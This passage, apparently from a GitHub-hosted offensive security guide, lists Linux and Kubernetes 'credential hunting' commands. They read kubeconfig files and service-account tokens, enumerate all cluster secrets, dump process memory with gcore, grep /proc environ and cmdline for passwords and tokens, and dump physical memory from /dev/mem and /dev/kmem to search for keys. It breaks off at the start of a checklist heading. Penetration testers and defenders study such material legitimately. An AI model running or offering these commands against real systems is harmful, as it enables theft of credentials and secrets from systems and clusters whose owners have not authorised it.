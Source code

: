 ```bash

# Docker secrets (if accessible)
ls -la /var/lib/docker/swarm/
```

### Kubernetes Credential Hunting
```bash
# Kubernetes configuration
cat ~/.kube/config

# Service account tokens
cat /var/run/secrets/kubernetes.io/serviceaccount/token 2>/dev/null

# ConfigMaps and Secrets (if accessible)
kubectl get configmaps --all-namespaces 2>/dev/null
kubectl get secrets --all-namespaces 2>/dev/null

# Pod environment variables
kubectl describe pods --all-namespaces 2>/dev/null | grep -i -A5 -B5 "Environment"
```

## 🔍 Memory and Process Credential Extraction

### Process Memory Analysis
```bash
# Dump process memory (requires appropriate privileges)
gcore <PID>
strings core.<PID> | grep -i -E "(password|secret|key|token)"

# Search process memory directly
grep -a -i "password" /proc/<PID>/mem 2>/dev/null

# Check process command lines
cat /proc/*/cmdline | strings | grep -i -E "(password|secret|key)"

# Process environment variables
cat /proc/*/environ | strings | grep -i -E "(password|secret|key|token)"
```

### System Memory Analysis
```bash
# Dump physical memory (requires root)
dd if=/dev/mem of=memory.dump bs=1M count=100 2>/dev/null
strings memory.dump | grep -i -E "(password|secret|key|token)"

# Search in /dev/kmem (if available)
strings /dev/kmem | grep -i -E "(password|secret|key)" 2>/dev/null
```

## 📋 Systematic Linux Credential Hunting Checklist
